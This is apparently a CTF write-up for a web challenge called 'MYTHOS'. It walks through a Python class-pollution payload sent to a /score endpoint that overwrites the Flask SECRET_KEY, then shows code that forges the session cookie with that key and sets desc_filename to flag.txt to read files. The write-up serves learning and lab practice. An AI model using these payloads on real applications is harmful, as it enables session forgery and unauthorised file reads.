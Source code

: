 +++
title = "MYTHOS"
date = 2025-08-15
authors = ["Vibhu Mehrotra"]
+++

## Summary
On the surface, this game appears to be similar to the terminal games played in the 1980s, where you get 1-4 options and based on your choice the story proceeds, everything is hardcoded. This simple version has only around 20 possibilities to go through and only 1 good ending which you can get only if you collect all the 'items' however, that is not sufficient to print the flag, the game on winning returns the descriptions of the items you hold.... So we need to somehow change the filepath of the description to the path of the flag to get the flag printed.

This is a very clever probem, requiring the exploitation of two seperate vulnerabilities 
- Overwriting the flask session key with a compromised key known to attacker. This can be done due to a poorly written copy function which doesn't sanitation the input
- Blindly reading a 'description file' without checking if it is in the authorised directory. 

simply put, our access to session key allows us to overwrite the path of a certain description file name, which is in a certain scenario printed out.

## Solution:

- Step 1: replace the app session key with our own compromised key
here is the python code where the key is defined, a random 40 bit key clearly infeasible to bruteforce
```python
app = Flask(__name__, static_url_path="", static_folder="static")
app.config["SECRET_KEY"] = rand_name(40)
```
The request we can use to overwrite the key is this one:

```python
@app.route("/score", methods=["POST"])
@game_session
def submit():
    score = ScoreSubmission(session["game"]["player"])
    copy(request.json, score)

    acquired_items = json.loads(session["items"].decode())
    score.items = acquired_items
    return score.toJSON()
```
the important lines are:
```python
score = ScoreSubmission(session["game"]["player"])
copy(request.json, score)

```
score is a an object storing the properties of the current session
and now we use copy to blindly copy request.json (our input) directly into score, i.e directly replacing the information in the session
so we use the following post request:
```python
s.post(URL + 'score', json={"__init__":{"__globals__":{"app":{"config":{"SECRET_KEY":NEW_SECRET}}}}})

```
withing copy, this occurs:
```python
setattr(dst, k, v) 
```
which basically blindly replaces wherever the key k is found with our user value v.

**We now have full control over the session cookies etc, and we can make requests 'as' the server itself**

- Now we need to do two things, get 'All' items in the game and then go through the game and reach the good ending (we can only reach good ending if the game sees that we have all the items)

we can do this by 
```python

s = requests.session()
r = s.get(URL)
data = FSCM.decode(s.cookies['session'],NEW_SECRET)
data['items'] = json.dumps({"mimic_gem": 1,"mermaid_scale":1,"angels_scarf":1,"mew_plaque":1,"Mythos":{"deserialize":"item_delegate"},"desc_filename":"flag.txt","name":"test"}).encode()

new_session = FSCM.encode(NEW_SECRET, str(data))
COOKIES = {'session': new_session}
```
What we are doing here is simple, we create a new HTTP session using the polluted key, and as part of the session creation we include the session data of items to be all the items in the game (required to reach win screen). 

item_delegate is:
```pm
my $game_artifacts = {
    item_delegate    => sub {
                            my $obj = shift; 
                            if (defined $obj->{desc_filename}) {
                                $obj->{desc} = read_file($obj->{desc_filename});
                                return {
                                    name=>$obj->{name},
                                    desc=>$obj->{desc}
                                    };
                                } return $obj;
                            },
    ....
};
```
So we basically pass in the name 'test' and file of description as flag.txt... so it simply reads the flag and returns it to us once we reach the 'good ending'.
Reaching the good ending is trivial since using the events.json provided to us we can map out the correct path.
>Credit for code and solution @Anony from the GCTF discord.


